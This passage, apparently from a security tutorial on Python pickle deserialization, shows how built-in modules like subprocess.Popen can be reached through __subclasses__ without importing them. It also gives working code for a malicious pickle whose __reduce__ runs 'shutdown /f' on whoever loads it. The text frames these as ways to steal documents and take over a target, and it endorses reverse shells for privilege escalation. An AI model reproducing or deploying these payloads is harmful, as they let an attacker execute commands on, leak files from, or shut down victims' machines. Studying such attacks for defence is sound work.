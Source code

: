 As you notice from the above, the contents of all of the files, including the victim's `test.py` file which was meant to process the pickled data, has been leaked successfully! On the victim's end, you might also realize that there was no need for them to import the required modules such as `os` and `subprocess`. This is because these modules are built-in and they are usually concealed in the background. Our payload would not have worked if we had used user-defined classes or external packages. We can use `subprocess.Popen` as an example to demonstrate that these built-in modules are really hidden away from prying eyes:

```python
>>> print([subclass for subclass in dict.__mro__[1].__subclasses__() if "communicate" in subclass.__dict__])
[<class 'subprocess.Popen'>]
>>> print(id([subclass for subclass in dict.__mro__[1].__subclasses__() if "communicate" in subclass.__dict__][0]))
1899806751768
>>> print(subprocess.Popen)
Traceback (most recent call last):
  File "<pyshell#1>", line 1, in <module>
    print(subprocess.Popen)
NameError: name 'subprocess' is not defined
```

```python
>>> import subprocess
>>> print(subprocess.Popen)
<class 'subprocess.Popen'>
>>> print(id(subprocess.Popen))
1899806751768
>>> print([subclass for subclass in dict.__mro__[1].__subclasses__() if "communicate" in subclass.__dict__][0] == subprocess.Popen)
True
```

With all that being said, the most effective method to steal documents on a target device is through RCE, as spawning a reverse shell allows for privilege escalation and total control over said device. 

#### 3 Denial of Service (DoS)

RCE can also cause a DoS by shutting down the target machine, preventing users from accessing it. As we are not trying to obtain an output from the victim's device, we can simply use `os.system` to execute a `shutdown` command in the subshell:

```python
>>> import os
>>> class Terrorist:
    	def __reduce__(self):
        	return (os.system, ("shutdown /f",))
```

```python
>>> import pickle
>>> with open("shutdown.pkl", "wb") as file:
    	pickle.dump(Terrorist(), file)
    	file.close()
```
